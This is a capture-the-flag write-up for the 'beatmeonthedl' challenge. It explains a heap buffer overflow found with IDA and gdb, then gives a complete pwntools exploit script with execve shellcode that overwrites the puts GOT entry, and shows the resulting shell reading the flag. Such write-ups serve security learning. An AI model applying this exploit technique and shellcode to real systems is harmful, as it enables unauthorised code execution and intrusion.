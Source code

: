 # Writeup
The challenge gives the beatmeonthedl executable and that's all.
Doing a reverse engineering with IDA, we can note:

1- The main is an organized menu, pretty legible.

![beatmeonthedl1](https://cloud.githubusercontent.com/assets/1280700/25596814/9264fb4a-2ea1-11e7-9129-2dd659003e38.png)

2- The reqlist is stored in the .bss area, more specifically at address 0x609e88. It is an array
of pointers (max of 31 places).

![beatmeonthedl2](https://cloud.githubusercontent.com/assets/1280700/25596815/9267929c-2ea1-11e7-84ba-67a7e1bb1ae3.png)

3- There are buffer overflow vulnerabilities in the add_request and update_request functions. While
the allocated memory for a request string is of 56 bytes (line 15), it allows writing 128 bytes
(line 23).  

![beatmeonthedl3](https://cloud.githubusercontent.com/assets/1280700/25596816/9274b666-2ea1-11e7-9154-d186d88da477.png)

The buffer overflow vulnerabilities cause weird things when deleting an overflowed buffer. After
inspecting for a while through gdb, I noticed that it was possible to write anything to anywhere.
For example, after deleting the input *"A"\*56 + "\x00\x00\x00\x00\x00\x00\x00\x00" +
"\x80\x9e\x60\x00\x00\x00\x00\x00" + "\x90\x9f\x60\x00\x00\x00\x00\x00"*, it writes 0x609f90 in position 4 of reqlist
0x609e98 (0x609e80 + 0x18). 

Using the usual free function from stdlib, this does not happen, and a runtime error of *free():
invalid next size (fast)* occurs. This exaplains why the free function is embedded in the
beatmeonthedl executable.

After confirming this strange behavior, I wrote the script below which gave me a shell.

```python
from pwn import *

p = process("./beatmeonthedl")
#p = remote("beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me", 6969)
res = p.recvuntil("Enter username: ")
p.sendline("mcfly")
res = p.recvuntil("Enter Pass: ")
p.sendline("awesnap")
#adds foir request texts:
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("CCCCCCCC")
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("DDDDDDDD")
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("EEEEEEEE")
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("FFFFFFFF")

#replaces the third text, overflowing the fourth
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("2")
res = p.recvuntil("data: ")
p.sendline("A"*56 + "\x00\x00\x00\x00\x00\x00\x00\x00" + "\x80\x9e\x60\x00\x00\x00\x00\x00" + "\x90\x9f\x60\x00\x00\x00\x00\x00")

#deletes the third text, causing a bug on the free function and writing 0x609f90 at 0x609e80 + 0x18 (fourth position)
res = p.recvuntil("| ")
p.sendline("3")
res = p.recvuntil("choice: ")
p.sendline("2")

#writes our shellcode at 0x609f90 (the fourth position)
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("3")
res = p.recvuntil("data: ")
p.sendline("\x90"*10 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")

#replaces the first text, overflowing the second
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("0")
res = p.recvuntil("data: ")
p.sendline("A"*56 + "\x00\x00\x00\x00\x00\x00\x00\x00" + "\x70\x9e\x60\x00\x00\x00\x00\x00" + "\x58\x99\x60\x00\x00\x00\x00\x00")

#deletes the third text, causing a bug on the free function and writing 0x609958 at 0x609e70 + 0x18 (second position)
res = p.recvuntil("| ")
p.sendline("3")
res = p.recvuntil("choice: ")
p.sendline("0")

#writes the address of our shellcode in the put got
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("1")
res = p.recvuntil("data: ")
p.sendline("\x90\x9f\x60\x00\x00\x00\x00\x00")

p.interactive()
```

```
[+] Opening connection to beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me on
port 6969: Done
[*] Switching to interactive mode
$ ls
beatmeonthedl
flag
$ cat flag
The flag is: 3asy p33zy h3ap hacking!!
```
